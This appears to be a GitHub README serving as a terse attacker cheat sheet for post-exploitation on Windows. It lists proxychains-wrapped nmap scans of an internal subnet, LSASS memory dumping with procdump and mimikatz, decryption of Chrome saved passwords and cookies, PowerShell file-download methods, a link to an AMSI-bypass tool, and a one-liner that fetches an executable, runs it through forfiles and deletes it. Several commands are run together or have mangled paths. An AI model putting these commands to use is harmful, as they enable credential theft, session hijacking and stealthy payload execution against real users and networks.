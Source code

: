 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````



## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
